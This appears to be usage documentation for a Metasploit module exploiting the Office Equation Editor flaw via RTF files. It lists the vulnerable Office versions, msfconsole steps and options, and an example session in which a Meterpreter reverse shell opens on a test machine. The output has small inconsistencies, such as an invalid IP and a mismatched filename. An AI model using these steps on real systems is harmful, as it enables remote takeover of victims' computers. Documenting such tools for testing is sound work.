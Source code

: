 
Module exploits a flaw in how the Equation Editor that allows an attacker to execute arbitrary code in RTF files without interaction. The vulnerability is caused by the Equation Editor, to which fails to properly handle OLE objects in memory.

## Vulnerable Application

- Microsoft Office 2016
- Microsoft Office 2013 Service Pack 1
- Microsoft Office 2010 Service Pack 2
- Microsoft Office 2007

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/fileformat/office_ms17_11882`
3. Do: `set PAYLOAD [PAYLOAD]`
4. Do: `run`

## Options
### FILENAME
Filename to output & if injecting a file, the file to inject

### FOLDER_PATH
Path to filename to inject


## Example

```
msf > use exploit/windows/fileformat/office_ms17_11882
msf exploit(office_ms17_11882) > set FILENAME msf.rtf
FILENAME => /home/mumbai/file.rtf
msf exploit(office_ms17_11882) > set LHOST ens3
LHOST => ens3
msf exploit(office_ms17_11882) > set LPORT 35116
LPORT => 35116
msf exploit(office_ms17_11882) > run
[*] Using URL: http://0.0.0.0:8080/BUY0DYgc
[*] Local IP: http://192.1668.0.11:8080/BUY0DYgc
[*] Server started.
[*] 192.168.0.24     office_ms17_11882 - Handling initial request from 192.168.0.24
[*] 192.168.0.24     office_ms17_11882 - Stage two requestd, sending
[*] Sending stage (205379 bytes) to 192.168.0.24
[*] Meterpreter session 1 opened (192.168.0.11:35116 -> 192.168.0.24:52217) at 2017-11-21 14:41:59 -0500
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```
